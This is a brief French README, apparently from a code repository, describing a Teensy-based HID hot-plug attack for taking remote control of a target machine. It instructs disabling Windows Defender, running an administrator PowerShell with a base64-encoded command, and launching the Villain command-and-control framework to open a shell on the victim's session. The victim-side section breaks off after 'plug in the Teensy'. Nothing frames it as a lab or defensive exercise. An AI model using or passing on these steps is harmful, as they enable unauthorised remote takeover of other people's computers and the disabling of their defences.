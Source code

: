 # Hot-plug et attaques hid

## Pré-requis

Connectez le payload et prendre le contrôle à distance de la machine cible depuis un ordinateur externe.

Prérequis :

- Désactivez Windows Defender.
- Lancez PowerShell en tant qu'administrateur.
- Tapez la commande encodée en base64.

## Commande côté serveur

```git clone https://github.com/t3l3machus/Villain
cd Villain
pip3 install -r requirements.txt
python3 Villain.py
sessions
shell [ID]
```

# Côté victime

Branchez la Teensy

